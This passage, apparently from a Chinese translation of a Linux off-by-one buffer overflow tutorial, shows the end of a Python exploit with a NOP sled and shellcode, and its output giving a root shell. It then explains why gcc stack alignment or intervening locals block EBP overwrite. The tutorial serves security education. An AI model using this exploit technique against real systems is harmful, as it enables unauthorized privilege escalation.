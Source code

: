 ```py
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

off by one看起来像一个愚蠢的bug，它令人奇怪的地方是开发人员造成这么小的错误可能会导致任意代码执行。off by one总是导致任意代码执行吗？

**如果调用者的EBP不存在于目的地缓冲区之上怎么办？**

这个问题的答案很简单，我们不能用EBP覆写技术来利用它!（但是一些其他的利用技术可能是可能的，因为代码中存在一个bug）

在什么情况下，调用者的EBP不会出现在目标缓冲区上方？

情况1：目标缓冲区之上可能存在其他局部变量。

```c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```

因此，在这些情况下，在缓冲区`buf`和EBP的结尾之间找到了一个局部变量，它不允许我们覆盖EBP的LSB！

情况2：对齐空间 - 默认情况下，gcc将堆栈空间对齐为16字节边界，即在创建堆栈空间之前）ESP的最后4位是0并且使用`and`指令，如下面的函数反汇编所示。

```
Dump of assembler code for function main:
 0x08048497 <+0>: push %ebp
 0x08048498 <+1>: mov %esp,%ebp
 0x0804849a <+3>: push %edi
 0x0804849b <+4>: and $0xfffffff0,%esp               //Stack space aligned to 16 byte boundary
 0x0804849e <+7>: sub $0x20,%esp                     //create stack space
...
```

因此，在这些情况下，在缓冲区`buf`和EBP的结尾之间找到一个对齐空间（最多12个字节），这不允许我们覆盖EBP的LSB！

因为这个原因，我们在编译我们漏洞代码（vuln.c）时添加了gcc参数`-mpreferred-stack-boundary = 2`!

请求帮助!!:如果在创建堆栈空间之前，ESP已经在16字节边界层上对齐了？在这种情况下，即使程序使用gcc的16字节的默认堆栈边界进行编译，EBP覆写也是可行的。但到目前为止，我没有创建这样一个工作代码。在我创建堆栈空间之前的所有尝试中，ESP在16字节边界上不对齐，无论如何谨慎地创建我的堆栈内容，gcc为本地变量添加了一些额外的空间，这使得ESP对齐不到16字节边界。如果任何人有工作代码或有一个答案:为什么ESP总是不对齐，请让我知道。

参考

<http://seclists.org/bugtraq/1998/Oct/109>